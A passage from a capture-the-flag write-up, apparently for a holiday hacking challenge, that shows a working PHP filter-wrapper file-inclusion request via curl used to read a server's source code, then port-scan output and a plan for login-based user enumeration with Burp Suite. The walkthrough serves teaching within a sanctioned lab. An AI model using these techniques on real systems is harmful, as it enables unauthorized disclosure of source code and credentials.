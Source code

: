 Ah cool! So we can return the source of our crashdump. Sadly, there wasn't anything new from this file. There was one other file though on the exception server: `exception.php` itself. Could we replace our crashdump file with the `exception.php` to see what it has in it?

<figure class="highlight"><pre><code class="language-java" data-lang="java">curl -H 'Content-Type: application/json' --data-binary "{\"operation\":\"ReadCrashDump\",\"data\":{\"crashdump\":\"<span class="sb">php://filter/convert.base64-encode/resource=exception</span>\", \"folder\":\"docs\"}}" --compressed 'http://ex.northpolewonderland.com/exception.php' | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1759    0  1636  100   123   6753    507 --:--:-- --:--:-- --:--:--  6760
<\?php 

# Audio file from Discombobulator in webroot: <span class="sb">discombobulated-audio-6-XyzE3N9YqKNH.mp3</span>
</code></pre></figure>

And it works! And lookie there.. we have the path to our next audio file: `discombobulated-audio-6-XyzE3N9YqKNH.mp3`. As always, a simple `wget` can retrieve the audio file. We are ready to tackle the final server!

### 7.6) The Mobile Analytics Server (post authentication)

#### Administrator access

Ports relevant for the Analytics Server (analytics.northpolewonderland.com):

```
PORT      STATE    SERVICE
80/tcp    open     http
```

A typical good idea when tackling a new web application is to record as much traffic as we can and then analyze it offline. We can use [Burp Suite](https://portswigger.net/burp/) to proxy our traffic for us. After setting our proxy settings in our browser to 127.0.0.1:8080. We can begin exploring the application.

The main functionality is to query a database for various report entries. There is also a functionality to save a query in a report which we can look at later via the report uuid.

After recording traffic from as much of the application that we have access to via our `guest` account, we can begin replaying various requests in Burp. One of the initial cases would be the login request. Let's try a different username. What we are looking for is different messages from the server in order to implicitly gain information about users.
